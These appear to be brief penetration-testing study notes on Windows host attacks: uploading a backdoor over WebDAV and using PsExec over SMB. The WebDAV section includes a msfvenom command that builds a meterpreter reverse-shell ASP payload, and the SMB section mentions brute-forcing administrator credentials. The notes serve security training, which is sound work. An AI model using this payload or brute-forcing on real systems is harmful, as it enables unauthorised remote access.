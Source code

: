 # Host & Network Penetration Testing: System/Host Based Attacks

Intro: system/host based attacks are targeted towards a specific system or host running a specific os

## Windows

### Webdav
**Continue from previous webdav lessons...Uploading msf backdoor to WebDAV**
- msfvenom is to create payload `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > meterpreter.asp
- can also use `iis_webdav_upload` module in the framework instead of `cadaver` which is fully self contain

### SMB with PsExec

- before using psexec, valid credentials are needed, administrator account can be frute force

## Linux
